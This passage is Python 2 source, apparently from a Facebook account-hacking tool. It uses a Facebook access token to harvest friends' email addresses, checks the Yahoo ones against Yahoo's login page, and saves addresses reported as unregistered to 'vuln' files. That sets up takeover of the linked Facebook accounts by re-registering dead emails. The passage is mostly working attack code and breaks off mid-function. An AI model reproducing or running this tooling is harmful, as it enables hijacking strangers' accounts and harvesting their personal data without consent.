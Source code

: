 				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in picks:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+fb_name)
					sucessful.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(sucessful))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/MailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()

##### CLONE FROM FRIEND #####
def yahoofromfriends():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	mpsh = []
	jcsb = 0
	idt = raw_input("\033[1;91m[+] \033[1;92mInput ID friend \033[1;91m: \033[1;97m")
	try:
		seat = requests.get("https://graph.facebook.com/"+idt+"?access_token="+fb_token)
		op = json.loads(seat.text)
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom\033[1;91m :\033[1;97m "+op["name"]
	except KeyError:
		print"\033[1;91m[!] Friend not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	mkdir('\033[1;91m[✺] \033[1;92mGetting email from friend \033[1;97m...')
	friends = requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+fb_token)
	mitchy = json.loads(friends.text)
	save = open('out/FriendMailVuln.txt','w')
	jamss('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in mitchy['data']:
		jcsb +=1
		mpsh.append(jcsb)
		id = w['id']
		fb_name = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+fb_token)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")